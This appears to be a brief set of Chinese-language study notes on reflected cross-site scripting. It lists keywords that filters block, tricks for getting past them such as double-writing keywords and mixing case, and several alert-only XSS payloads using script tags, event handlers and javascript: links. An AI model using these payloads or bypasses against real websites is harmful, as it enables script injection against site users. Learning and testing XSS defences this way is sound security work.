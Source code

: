 # 被过滤

```
script 
data
on
data

```



# 绕过技巧

```
双写
大小写
看view：source   ，闭合标签
```



# 反射型xss

最基本的

```
<script>alert(1)</script>
```



```
input等标签
onfocus=javascript:alert(1)' 
```



```
"> <a href=javascript:alert()> "<
```

```
当src错误时，就会报错
<img src=111 onerror=alert('xss')>
```



# 
